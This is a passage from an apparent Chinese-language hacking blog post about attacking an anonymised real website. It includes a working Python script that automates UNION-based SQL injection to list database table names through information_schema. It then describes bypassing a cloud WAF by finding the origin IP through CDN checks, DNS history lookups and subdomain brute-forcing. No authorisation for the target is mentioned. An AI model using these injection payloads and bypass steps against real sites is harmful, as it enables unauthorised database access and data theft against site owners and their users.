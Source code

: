![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvxEIobMLdxhN0CfA8hE1xyeAGc0R4zXXbKpKe3TYIkdEJVdIRraoLJQ/640?wx_fmt=png)

当前权限只查询出两个表，一个是 mysql 内置的 information_schema，另一个就是网站管理员自定义的表 `hxxxxxxg`  

##### 获取 hxxxxxxg 库内的所有表名称 ↓

上面代码中 url 中的参数换成查询表名称的 sql

```
...

for i in range(0,10000):
    url = 'http://www.xxx.com/xx.php?id=296+and+1=2+union+select+1,2,3,4,5,6,7,unhex(hex(table_name)),9,10,11+from+information_schema.tables+where+table_schema="hxxxxxxg"+limit+%d,1--+'%i
    r = requests.get(url,headers=headers)
    soup = BeautifulSoup(r.text,'lxml')
    result = soup.select('div.main_word > div.main_cont > div.new_txt')[0].text.strip()
    if result != '':
        print(result)
    else:
        print('所有表查询完毕')
        break
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvqrVysYHnNxykvV1Ua2LdktK8UFwibLQBZ14ibmPtWVHz19QVZWVNm1Lg/640?wx_fmt=png)

查询到 8 个表后脚本执行报错，在返回页面找不到数据  
打开浏览器查看  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvMegoCwzRlRNOj8ynRCG7c2y4apbI8Anu5icDGzPkjOiccm1hteGJ9h1Q/640?wx_fmt=png)

是因为被另一个 waf 拦截导致的，这个是西部数据的云 waf 平台  
绕过云 waf 的思路主要是找该网站的真实 IP，如果能找到真实 IP 在本地电脑 host 绑定一下，那么云 waf 就形同虚设。  

首先验证是否有 CDN  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvBxIbiaY3Libb3SuoDCGAdVrCB2zDGW5zPc3k8oumWh5hS3iaNA6bQOjww/640?wx_fmt=png)

多个地区的 ping 地址一样，解析的 IP 地址都是西部数码数据中心，也就是云 waf 的机房  

查看 DNS 解析历史  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSvCdsrIxV2ANnBT882UlX9Et0sJWaQuIDib2Hs7CJ4MorHeddvC7ZLricg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSv6oNWq8auVYYqxgqQoFicXf4gJrYgZK3RB1MpWWn4kTJXL54r8fVmsUA/640?wx_fmt=png)

从不同的 DNS 历史解析平台查询到几个跟云 waf 不同网段的 IP，很可能是网站之前的真实 IP  

然而… 挨个访问这些 IP 发现早已无法访问。

查询子域名 IP  
layer 子域名挖掘机和 subdomainbrute 扫描子域名  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyDW4j08ibdzO5HeYtnUtXSviaB7GSDk458xvR1AmtQbnsPMzk4GCBMLljBJzmtgqYJjbwSBeDx14IQ/640?wx_fmt=png)

发现两个其他的域名，一个 mail 开头的 IP ，访问跳转到了网易邮箱主页，应该是该网站的企业邮箱用的网易邮箱服务。  
另一个域名是 smtp，访问这些 IP 也早已经无法访问  

